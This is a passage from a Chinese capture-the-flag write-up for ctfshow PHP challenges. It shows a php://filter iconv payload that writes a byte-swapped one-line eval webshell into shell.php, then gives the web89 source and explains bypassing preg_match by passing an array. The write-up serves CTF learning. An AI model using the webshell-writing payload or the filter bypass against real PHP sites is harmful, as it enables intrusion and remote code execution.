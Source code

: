 payload:

```
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php
contents=?<hp pe@av(l_$EG[T]1;)>?
```

成功写入一句话木马，拿到flag







### php特性

> 参考网站：
>
> [php一些特性函数（ctfshow）](https://blog.csdn.net/qq_62046696/article/details/125272550)

#### web89

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-16 11:25:09
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-18 15:38:51
\# @email: h1xa@ctfer.com
\# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
  $num = $_GET['num'];
  if(preg_match("/[0-9]/", $num)){
    die("no no no!");
  }
  if(intval($num)){
    echo $flag;
  }
}
```

这题要用到数组绕过的特性来绕过preg_match的匹配

##### preg_match函数：

> preg_match函数是用于完成字符串的正则匹配的函数，如果找到一个匹配的，就返回1，否则就返回0。
> preg_match只能处理字符串，如果传入的值是数组的话，就会报错，从而返回false，绕过了正则匹配。
